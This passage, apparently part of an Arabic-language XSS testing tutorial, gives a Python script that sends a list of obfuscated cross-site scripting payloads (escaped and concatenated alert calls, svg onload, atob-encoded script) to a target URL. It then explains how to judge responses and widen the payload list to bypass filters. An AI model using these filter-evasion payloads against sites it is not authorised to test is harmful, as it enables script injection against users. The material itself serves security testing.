 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python):
  ```python
  import requests

  url = "https://example.com/search?query="
  payloads = [
      "<script>('al'+'ert')('XSS')</script>",
      "<script>\u0061lert('XSS')</script>",
      "<script>eval('\x61lert(\\'XSS\\'))</script>",
      "<img src=x onerror=('al'+'ert')('XSS')>",
      "<svg onload=window['alert']('XSS')>",
      "javascript:Function('alert(\"XSS\")')()"
  ]

  for payload in payloads:
      response = requests.get(url + payload)
      if "XSS" in response.text or response.status_code == 200:
          print(f"نجاح: {payload}")
      else:
          print(f"فشل: {payload}")
  ```
- **كيف يعمل**:
  - يرسل كل حقنة إلى URL المستهدف.
  - يتحقق من وجود كلمة "XSS" في الاستجابة أو رمز حالة 200 لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة أو فلاتر معقدة.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن استجابات الحقن بناءً على:
    - **رمز الحالة**: 200 (نجاح) مقابل 403/404 (فشل).
    - **طول الصفحة**: صفحة أطول قد تشير إلى نجاح.
    - **نص معين**: مثل "XSS" أو "error" في الاستجابة.
  - مثال: إذا أعادت `<script>('al'+'ert')('XSS')</script>` صفحة تحتوي على "XSS"، فهي ناجحة.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد أي حقنة تجاوزت الفلاتر.
- **متى يُستخدم؟**:
  - لتحديد الحقن الأكثر فعالية بسرعة.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف تشفيرات إضافية (مثل Base64 لشيفرات جديدة).
  - جرب وسوم HTML5 أخرى (مثل `<audio>`, `<marquee>`).
  - استخدم أحداث إضافية (مثل `onpointerover`, `onloadstart`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<script>eval(atob('YWxlcnQoIlhTUyIp'))</script>` إلى القائمة.
- **متى يُستخدم؟**:
  - عندما تكون الفلاتر صارمة وتتطلب تجربة صيغ متعددة.

---
